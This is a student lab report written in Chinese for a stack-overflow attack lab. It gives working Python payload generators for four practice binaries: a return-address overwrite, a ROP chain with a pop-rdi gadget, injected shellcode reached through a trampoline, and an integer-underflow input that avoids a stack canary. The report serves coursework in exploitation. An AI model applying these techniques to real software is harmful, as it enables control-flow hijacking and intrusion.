




# 栈溢出攻击实验报告 (Attack Lab Report)

**姓名**：齐煜  
**学号**： 2024201477


## 题目解决思路

### Problem 1:
- **分析**：
  通过反汇编 `objdump -d problem1` 分析 `func` 函数，发现程序存在经典的 `strcpy` 漏洞。
  栈帧分析显示，局部变量缓冲区起始位置距离 `rbp` 为 8 字节。考虑到 64 位系统中 `Saved RBP` 占用 8 字节，我们需要覆盖的总长度为 **16 字节**，紧接着便是返回地址。
  目标是将返回地址覆盖为 `func1` 的入口地址 `0x401216`，从而劫持控制流。
- **解决方案**：
```python
#!/usr/bin/env python3

def generate_exploit():
    # 配置参数
    file_name = "ans1.txt"
    buffer_size = 8
    rbp_size = 8
    target_jump = 0x401216 # func1 address

    # 1. 构建垃圾数据 (Padding)
    raw_payload = bytearray()
    for _ in range(buffer_size + rbp_size):
        raw_payload.append(0x41) # 0x41 is 'A'

    # 2. 追加目标地址 (小端序)
    addr_bytes = target_jump.to_bytes(8, byteorder='little')
    raw_payload.extend(addr_bytes)

    # 3. 写入文件
    with open(file_name, "wb") as f_out:
        f_out.write(raw_payload)
    print(f"[+] 成功生成 {file_name}")

if __name__ == "__main__":
    generate_exploit()
```
- **结果**：
  
  *执行 ./problem1 ans1.txt，控制流成功跳转。*

### Problem 2:
- **分析**：
  本题开启了 NX 保护，栈不可执行。我们需要构造 ROP 链（Return Oriented Programming）。 
  目标函数 `func2` (0x401216) 需要验证第一个参数 `%rdi` 是否为 `0x3f8` (1016)。 
  通过搜索 gadget，找到了 `pop %rdi; ret` 指令序列（地址 `0x4012c7`）。
- **解决方案**：
```python
import sys

# 关键地址
GADGET_POP_RDI = 0x4012c7
FUNC_TARGET    = 0x401216
ARGUMENT_VAL   = 0x3f8

# 构建 Payload
payload = b'A' * 16              # Buffer + RBP
payload += GADGET_POP_RDI.to_bytes(8, 'little')
payload += ARGUMENT_VAL.to_bytes(8, 'little')
payload += FUNC_TARGET.to_bytes(8, 'little')

with open('ans2.txt', 'wb') as f:
    f.write(payload)
```
- **结果**：
  
  *执行 ./problem2 ans2.txt，参数传递正确，成功输出。*

### Problem 3:
- **分析**：
  ASLR 导致栈地址随机化，但题目通过 `jmp_xs` (0x401334) 留了后门。该函数会跳转到 `saved_rsp + 0x10` 的位置，恰好是我们缓冲区的起始位置。
  Shellcode 目标：将 `0x72` 赋值给 `%rdi`，并调用 `0x401216`。
- **解决方案**：
```python
import struct

def create_shellcode_payload():
    trampoline_addr = 0x401334
    # mov edi, 0x72; mov eax, 0x401216; call rax
    code_ints = [191, 114, 0, 0, 0, 184, 22, 18, 64, 0, 255, 208]
    shellcode = bytes(code_ints)
    
    # Padding to RET address (40 bytes total)
    padding = b'\x90' * (40 - len(shellcode))
    final_data = shellcode + padding + struct.pack('<Q', trampoline_addr)
    return final_data

with open('ans3.txt', 'wb') as f:
    f.write(create_shellcode_payload())
```
- **结果**：
  
  *执行 ./problem3 ans3.txt，Shellcode 执行成功，打印幸运数字 114。*

### Problem 4:
- **分析**：
  本题启用 Canary 保护。通过审计汇编发现 `func` 存在逻辑漏洞：程序对输入整数进行减法循环。如果输入 `-1` (即 `0xffffffff`)，在特定无符号/有符号转换逻辑下可绕过检查，进入成功分支，而不必破坏栈结构。
  **Canary 机制体现**：通过 `mov %fs:0x28, %rax` 设置并在返回前校验。本解法通过逻辑溢出完全避开了栈覆盖，故 Canary 不会被触发。
- **解决方案**：
```python
# 生成交互式输入数据
inputs = ["MyUser", "MyID_123", "-1"]
payload_str = "\n".join(inputs) + "\n"

with open("ans4.txt", "w") as f:
    f.write(payload_str)
```
- **结果**：
  
  *执行 ./problem4 < ans4.txt，成功输出 "your money is 4294967295"。*


## 参考资料
1. *Computer Systems: A Programmer's Perspective*. Bryant & O'Hallaron.
2. *Linux Programmer's Manual* (man pages).
3. *CTF Wiki - Pwn / Stack Overflow*.
